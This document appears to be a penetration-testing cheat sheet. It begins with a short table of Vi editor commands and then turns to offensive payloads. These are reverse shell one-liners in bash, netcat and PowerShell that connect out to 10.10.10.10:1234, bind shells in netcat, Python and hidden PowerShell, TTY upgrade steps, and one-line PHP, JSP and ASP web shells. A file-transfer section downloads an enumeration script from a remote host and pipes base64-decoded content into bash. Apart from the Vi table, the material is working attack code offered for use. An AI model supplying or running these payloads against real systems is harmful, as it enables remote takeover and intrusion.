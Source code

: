 ### Vi commands

| Command |	Description |
| ------- | ----------- |
| x |	Cut character |
| dw |	Cut word |
| dd |	Cut full line |
| yw |	Copy word |
| yy |	Copy full line |
| p |	Paste |
| :1 |	Go to line number 1. |
| :w |	Write the file, save |
| :q |	Quit |
| :q! |	Quit without saving |
| :wq |	Write and quit |

> https://github.com/theicfire/vimsheet/blob/gh-pages/index.md
---------
> https://vimsheet.com/
---------

Reverse shell, Bind Shell payloads


Reverse Shell
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
```bash
Bind Shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

```

Upgrading TTY

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo;fg
export TERM=xterm
stty a
stty rows <> cols <>
```

Web Shells

```bash

PHP: <?php system($_REQUEST["cmd"]); ?>
JSP: <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
ASP: <% eval request("cmd") %>

```

Transferring files

```bash
python3 -m http.server
wget http://10.10.14.1:8000/linenum.sh
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
scp linenum.sh user@remotehost:/tmp/linenum.sh
base64 shell -w 0 -> echo -n "<base_64_output> | base64 -d | bash
```


